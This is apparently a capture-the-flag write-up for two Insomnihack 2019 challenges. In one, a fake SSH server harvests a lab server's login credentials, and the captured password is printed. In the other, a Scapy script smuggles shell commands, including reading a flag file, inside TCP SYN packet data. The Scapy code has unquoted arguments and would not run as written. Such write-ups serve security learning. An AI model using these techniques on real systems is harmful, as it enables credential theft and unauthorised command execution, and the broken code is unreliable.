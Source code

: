 KnockKnock
=====================================
It was not about attacking, but listening on the laptop.
There was a connection to port 22 from the server 10.13.37.99
Let's install a FakeSSH serveur :
git clone https://github.com/tylermenezes/FakeSSH

sudo pip install paramiko

cd FakeSSH
cp ./data/config.sample.json ./data/config.json
ssh-keygen -f ./data/rsa -m 'PEM' 
set no password

sudo python3 server.py

wait max 10min

![](https://github.com/k4nfr3/CTF-writeup/blob/master/2019-Insomnihack/fakessh_1.jpg)

ssh -l svc-tenable-linux 10.13.37.99
password = $\mx3i#u0@%6d@8fk^&^x*ntw2m

![](https://github.com/k4nfr3/CTF-writeup/blob/master/2019-Insomnihack/fakessh_2.jpg)

================================================================================================================================
Net1
==============

Hint 2 : RFC741x => RFC7413 = Use TCP SYN Data

ok, Let's try some Python Scapy with TCP-Syn Data
===========================
from scapy.all import *
def main(command):
    while True:
        # build the TCPSYN packet with the command as the payload
        pinger = IP(dst="10.13.37.98")
        SYN = TCP(sport=6666, dport=3258, flags='S', seq=1000)
        xsyn = pinger / SYN / command
        send(xsyn)
if __name__ == "__main__":
    main(ls -la)
 ====================================   
Trying to send some commands but nothing back from the server.

Hint : We got the password "SyN" at 1am

Ok, let's send some commands
main(SyN ls -la)
....
final command : main(SyN cat ./secret/me/not/flag.txt)

to find flag 
![](https://github.com/k4nfr3/CTF-writeup/blob/master/2019-Insomnihack/Net1.jpg)




